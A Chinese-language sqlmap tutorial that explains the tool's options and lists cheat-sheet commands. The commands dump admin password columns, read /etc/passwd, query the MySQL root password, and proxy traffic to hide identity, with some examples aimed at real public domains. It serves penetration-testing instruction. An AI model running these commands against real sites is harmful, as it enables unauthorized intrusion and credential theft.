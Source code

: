 ```yaml
---
title: Net(4)—sqlmap 使用指南
date: 2020-11-19
author: LM
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分

sqlmap可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。

```bash
'/admin/1/' 类似于这种，SQLMap 便无法进行注入测试，但它实际上可能是这样的：'/admin.php?id=1'
```

它只是把参数隐藏在了 URL 中，对于这种网页，直接在参数后加上一个星号即可。

```bash
sqlmap -u "www.baidu.com/admin/1*"
```

### –data

使用post方式提交的时候，就需要用到data参数了

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

### –level

不同的level等级，sqlmap所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

### –random-agent

使用该参数，sqlmap会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

### –technique

这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B: Boolean-based blind SQL injection（布尔型注入）
- E: Error-based SQL injection（报错型注入）
- U: UNION query SQL injection（可联合查询注入）
- S: Stacked queries SQL injection（可多语句查询注入）
- T: Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```lua
检查注入点             sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"
列数据库信息            sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs
指定库名列出所有表       sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables
指定库名表名列出所有字段  sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns
指定库名表名字段dump出指定字段
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin -C ac,id,password --dump    
                                                                               
有几个参数可能会用到，直接加在最后面
--cookie=COOKIE                            在需要登录的地方，需要登录后的cookie
--proxy="http://127.0.0.1:8087"            使用HTTP代理隐藏自己的身份，比如使用goagent等
--sql-query=QUERY                          执行一个sql语句，不一定支持

命令解释（-v 等级1）
sqlmap -u "注入地址" -v 1 --dbs              // 列举数据库   
sqlmap -u "注入地址" -v 1 --current-db       // 当前数据库  
sqlmap -u "注入地址" -v 1 --users            // 列数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     // 当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                          // 列举数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               // 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"   //获取表中的数据，包含列   
```

## 3.Sqlmap参数使用实例

```rust
//指定参数注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
//指定方法和post的数据 
   sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
//指定cookie,可以注入一些需要登录的地址 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
//通过代理注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --proxy "http://127.0.0.1:8118" 
//指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
//显示指定的文件内容，一般用于php 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
//执行你自己的sql语句。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1"     
//union注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
//保存注入过程到一个文件，还可以从文件恢复出注入过程，很方便，一大特色。你可以在注入的时候中断，有时间再继续。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
